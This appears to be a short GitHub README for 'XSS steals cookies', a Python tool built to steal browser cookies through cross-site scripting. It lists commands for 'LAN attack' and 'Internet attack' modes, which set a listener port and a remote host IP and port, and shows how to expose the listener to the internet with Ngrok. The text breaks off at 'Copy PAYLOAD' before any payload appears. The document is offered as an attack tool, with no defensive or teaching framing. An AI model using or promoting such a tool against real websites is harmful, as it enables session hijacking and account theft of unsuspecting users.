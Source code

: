 # XSS steals cookies
* The current version is 1.0 and will be updated continuously
* Python version 3.6 or above
* Automatically steal cookies
## usage method
  * View help information

      ```#python3 XSS.py -h```
  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/Command.png "Help")  

  * LAN attack

      ```#python3 XSS.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration
* Enable port forwarding (Ngrok is used for demonstration)
![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/TCP.png "Port forwarding")  
* Use Internet attack

    ```#python3 XSS.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```
 
Copy PAYLOAD
* 